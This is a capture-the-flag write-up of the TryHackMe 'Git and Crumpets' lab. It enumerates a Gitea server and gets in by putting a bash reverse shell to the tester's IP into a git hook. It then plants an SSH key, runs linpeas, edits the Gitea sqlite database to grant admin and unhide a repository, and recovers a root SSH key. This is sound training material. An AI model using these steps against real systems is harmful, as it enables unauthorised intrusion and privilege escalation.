

# Git and Crumpets - TryHackMe
Link to the room: https://tryhackme.com/room/gitandcrumpets

-----------------
# Emumeration
## Nmap
```
# Nmap 7.91 scan initiated Sat Jul  3 00:03:45 2021 as: nmap -sC -sV -T4 -Pn -oA nmap/git 10.10.147.225
Nmap scan report for 10.10.147.225
Host is up (0.18s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 8.0 (protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:8.0: 
|     	EDB-ID:21018	10.0	https://vulners.com/exploitdb/EDB-ID:21018	*EXPLOIT*
|     	CVE-2001-0554	10.0	https://vulners.com/cve/CVE-2001-0554
|     	CVE-2020-15778	6.8	https://vulners.com/cve/CVE-2020-15778
|     	CVE-2010-4816	5.0	https://vulners.com/cve/CVE-2010-4816
|     	CVE-2019-16905	4.4	https://vulners.com/cve/CVE-2019-16905
|     	MSF:ILITIES/OPENBSD-OPENSSH-CVE-2020-14145/	4.3	https://vulners.com/metasploit/MSF:ILITIES/OPENBSD-OPENSSH-CVE-2020-14145/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-14145/	4.3	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-14145/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-14145/	4.3	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-14145/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP5-CVE-2020-14145/	4.3	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP5-CVE-2020-14145/	*EXPLOIT*
|     	MSF:ILITIES/F5-BIG-IP-CVE-2020-14145/	4.3	https://vulners.com/metasploit/MSF:ILITIES/F5-BIG-IP-CVE-2020-14145/	*EXPLOIT*
|     	CVE-2020-14145	4.3	https://vulners.com/cve/CVE-2020-14145
|     	CVE-2007-2768	4.3	https://vulners.com/cve/CVE-2007-2768
|     	MSF:EXPLOIT/FREEBSD/WEBAPP/SPAMTITAN_UNAUTH_RCE/	0.0	https://vulners.com/metasploit/MSF:EXPLOIT/FREEBSD/WEBAPP/SPAMTITAN_UNAUTH_RCE/	*EXPLOIT*
|     	MSF:EXPLOIT/FREEBSD/SAMBA/TRANS2OPEN/	0.0	https://vulners.com/metasploit/MSF:EXPLOIT/FREEBSD/SAMBA/TRANS2OPEN/	*EXPLOIT*
|_    	MSF:EXPLOIT/FREEBSD/MISC/CITRIX_NETSCALER_SOAP_BOF/	0.0	https://vulners.com/metasploit/MSF:EXPLOIT/FREEBSD/MISC/CITRIX_NETSCALER_SOAP_BOF/	*EXPLOIT*
80/tcp   open   http       nginx
| http-title: 503 Service Temporarily Unavailable
|_Requested resource was http://10.10.147.225/index.html
9090/tcp closed zeus-admin

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul  3 00:04:39 2021 -- 1 IP address (1 host up) scanned in 54.00 seconds

```

## Ffuf
Security measures against it

## Webserver
We can see that a reverse proxy has been set up however it's just so that directory enum can be redirected to a rickroll because the boxes aren't directly connected to the internet (so evil!)


Back to manual enumeration, after searching for robots.txt, the next thing on this list is to try license.txt and info (.html and .php). Voila, we have a hit! 
Curl info.php
```bash
curl "http://$IP/info.php"
```

Besides the awesome rick ASCII, we do get something useful!
```
Hey guys,                                                                                                                                                                            
I set up the dev repos at git.git-and-crumpets.thm, but I haven't gotten around to setting up the DNS yet.                                                                        
In the meantime, here's a fun video I found! 
```

Now that we can the name of a vhost, we can add it to our /etc/hosts. Navigating to `git.git-and-crumpets.thm` we are greeted with a gitea landing page (you can further research into it if you'd like). 



### Registering new user
It seems that registering a new user works so we can try making a new account. After successfully logging in we can start exploring repos and something catches our eye. 

**The user scones has some interesting files.**


This hints at the fact that something might be hidden in the profile picture. My first instinct is to fire up steghide and see if there are any embedded files. No luck there, let's try strings to check if there's some text embedded in it. Low and behold there is some cheeky text waiting for us!

*Strings inside scones.png*

```
My 'Password' should be easy enough to guess
```

### Logging in as Scones
We have an email and possible credentials, let's try to see if they work.
```
withcream@example.com:Password
```
Success! We are now logged in as the user scones. Now in order to get a reverse shell, we need to be able to execute code, uploading a PHP reverse shell to the repo won't work as it will only be displayed and not executed. A possible vector is using Githooks (again I would advise that you do a little research on how they work).


```
git@git.git-and-crumpets.thm:scones/cant-touch-this.git
```

Let's edit the githook and include bash commands to get a reverse shell to our host. We can trigger githooks by editing the existing file and saving the changes.
```bash
bash -i >& /dev/tcp/10.17.13.94/9001 0>&1
```


# Initial Foothold


Although a reverse shell is sweet, but you know what's sweeter? SSH! Jokes aside, the first step after gaining an initial foothold is always to try and get a more stable shell. Especially in this case, we'll see that we are unable to run curl or wget on this box, therefore in order to transfer files, we would indeed need ssh access. 

Navigating to /home/git/.ssh we can see that we have write permission for authorized keys.


Let's add our own key (or generate one if you haven't done it already) to authorized keys. Now we should be able to transfer files to the machine and also upgrade our own shell.

## Running LinPeas
We can transfer linpeas from our host machine using:
```bash
scp  -i id_rsa /opt/scripts/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh git@$IP:/dev/shm
```

Now let's run it and see if anything pops up. Low and behold (yeah apparently I say this now, great additon to my personality kekw), something indeed does. We find the sqlite database that's running on gitea, also there seems to be a backup repository for the root user too. Most likely it's the case that they might be hidden and only accessible through admin access on gitea. However, I don't like working on hunches so let's access the SQLite database and verify our hunch ;)

Running linpeas, the following output is most definetly interesting, to say the least.


## Enumerating sqlite3
We can access the repository by navigating to the directory and launching sqlite3.
```
[git@git-and-crumpets tmp]$ sqlite3 /var/lib/gitea/data/gitea.db
```

### Enumerating Users
```
1|hydra|hydra||hydragyrum@example.com|0|enabled|9b020d3e158bc31b5fe64d668d94cab38cadc6721a5fdf7a4b1fb7bf97021c5e68f56bd9bd44d5ce9547e5e234086342c4e4|pbkdf2|0|0|0||0|||XGySX7uBlc|3C4NzJWN9e|en-US||1618386984|1621615239|1621614217|0|-1|1|1|0|0|0|0|0|d91f03c868d38ecf84ab3cc54f876106|hydragyrum@example.com|1|0|0|0|1|0|0|0|0|unified|arc-green|0
2|root|root|groot|root@example.com|0|enabled|2181d2b5fbf1859db426bcb94d97851d9a0e87a5eb47c5edc7f92bffc45b679e554c8367084f379e59936b68c0d770823ec9|pbkdf2|0|0|0||0|||2VK8fSxvIZ|5e5xPrzvBr|en-US||1618391049|1621716065|1621716065|1|-1|1|0|1|0|0|0|0|b2b218891f86ea980812a5b934ecec1a|root@examle.com|1|0|0|0|1|0|0|0|0|unified|gitea|0
3|scones|scones||withcream@example.com|0|enabled|8d0386b217e0f1ad5a1012d879ce93c9d77fd79d888410fdee9e76ec58d6fa017042906dd9a2ea498d3fd5a7486a73875660|pbkdf2|0|0|0||0|Her Majesty's Secret Service||IF60pw0rVc|13y4Vtc2AH|en-US|I like scones.|1618492621|1625329047|1625329047|0|-1|1|1|0|1|0|0|0|3fc2cde6ac97e8c8a0c8b202e527d56d|jackel@example.com|1|0|0|0|1|0|0|0|0|unified|gitea|0
4|test|test||test@test.thm|0|enabled|d3463d9c205751364af7850bca7956d0f5cc0eb125a097db54fd0087eec31cec1912245e57fdfc53423a89e6684a15f8939a|pbkdf2|0|0|0||0|||oe4oKzc3mk|EgtShiimON|en-US||1618526457|1618526530|1618526457|0|-1|1|0|0|0|0|0|0|15c9bc2cfbc7b7fd0b627422d8189173|test@test.thm|0|0|0|0|0|0|0|0|0|unified|gitea|0
5|tech|tech||test@test.com|0|enabled|284fa22f56ab47b77541d631b8ed858c80884364ed6202b5f960b54f43cf4a396f41dfc8fd075df648ea242d25a0336ffed1|pbkdf2|0|0|0||0|||3cK2mlF0l6|CBZhwzom1d|en-US||1625324085|1625324085|1625324085|0|-1|1|0|0|0|0|0|0|b642b4217b34b1e8d3bd915fc65c4452|test@test.com|0|0|0|0|0|0|0|0|0||gitea|0
```

### Enumerating Repositories
```
sqlite> SELECT * FROM repository;
2|2|root|backup|backup|||0||master|1|0|0|0|0|0|0|0|0|0|0|1|0|0|0|0|0|0|0|0|25612|1|0|null|0||1618493101|1618494415
3|3|scones|cant-touch-this|cant-touch-this|Stop! Hammer time!||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|25864|1|0|null|0||1618494644|1625329352
4|1|hydra|hello-world|hello-world|Hello World||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|23233|1|0|null|0||1621615239|1621615240
```

As expected, we can see the user root does exist and has a backup repository. Now in order for us to be able to access it on gitea through our browser, we need to do two things:
- Get admin priveleges for gitea
- Make the repository visible (just playing it safe)

This can be done by running the following commands:
```sqlite3
UPDATE user SET is_admin=1 where id=3;
UPDATE repository SET is_private=0 WHERE name='backup';
```

## Accessing gitea as Admin
Let's first search for all the repos that are present on the site. 


Navigating to root, we find nothing special in the first branch however the second one contains 4 commits.


Is that an ssh key I see? ;)


# Priv Esc
The key we found is protected by a passphrase. Now you can try to crack it using john, but I can save you the time and tell you that in a final attempt to troll us, Hydragyrum actually gave us the passphrase! It's the title of the key `Sup3rS3cur3`. Wow, I whilst waiting for john to do its thing randomly tried it and it worked! #neverstayidle 

Now we can log in as root! 
*On a side note, I was unable to login directly from my host machine and instead had to log in from my current ssh session, therefore, using root@localhost. Kept getting invalid id_rsa key error*


I won't be sharing the flag as you can go find it yourself now :)
